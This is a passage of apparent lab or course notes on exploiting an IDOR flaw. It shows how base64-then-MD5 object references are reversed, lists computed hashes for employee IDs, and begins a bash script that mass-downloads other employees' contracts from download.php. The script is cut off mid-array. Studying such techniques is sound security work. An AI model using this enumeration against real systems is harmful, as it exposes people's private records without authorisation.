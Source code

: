 ```sh
cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
We are using the -n flag with echo and teh -w - flag with base64, to avoid adding new lines, un order to be avle to calculate teh md5 hash of the same value, without hashing newlines as that would change teh final md5.

This hash matches the hash in our request, meaning that we have successfully reversed the hashing techniques used on the obj references, turning then into IDOR.
We can begin enumerating other employees' contracts using the same hash methd we used above.

- Mass enumeration:
Let us write a simple bash script to retrive all employee contracts. This is the ez and most effiecient method of enumerating data and files through IDOR vulnerabilities. We may utilize tools like Burp INtruder or ZAP fuzzer.
We can start by calculating the hash for each of the first ten employeeusin the sam prev command while using [tr -d] to remove trailing - characters:
```sh
 for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```
The right the script for download.php with contract hashs:
Exercise:
```sh
#!/bin/bash

# Base URL (replace with actual challenge URL, e.g., http://<SERVER_IP>:<PORT>)
BASE_URL="http://example.com"
OUTPUT_DIR="contracts"

# Create directory to store files
mkdir -p "$OUTPUT_DIR"

# Function to compute Base64 and MD5
compute_contract_values() {
  local uid=$1
  # Base64 of uid (e.g., '1' -> 'MQ==')
  BASE64=$(echo -n "$uid" | base64 -w 0)
  # URL-encoded Base64 (e.g., 'MQ==' -> 'MQ%3D%3D')
  URL_ENCODED_BASE64=$(echo -n "$BASE64" | sed 's/+/%2B/g;s/=/%3D/g')
  # MD5 of Base64 (e.g., 'MQ==' -> md5('MQ=='))
  MD5_BASE64=$(echo -n "$BASE64" | md5sum | cut -d' ' -f1)
  # MD5 of uid (e.g., '1' -> md5('1'))
  MD5_UID=$(echo -n "$uid" | md5sum | cut -d' ' -f1)
  echo "$BASE64" "$URL_ENCODED_BASE64" "$MD5_BASE64" "$MD5_UID"
}

# Loop through employee IDs 1 to 20
for i in {1..20}; do
  # Compute contract values
  read BASE64 URL_ENCODED_BASE64 MD5_BASE64 MD5_UID <<< $(compute_contract_values "$i")

  # Array of contract parameters to try
  CONTRACTS=(
    "$URL_ENCODED_BASE64"  # Base64-encoded UID (HTML)
    "$MD5_BASE64"         # MD5 of Base64 (reference script)
```
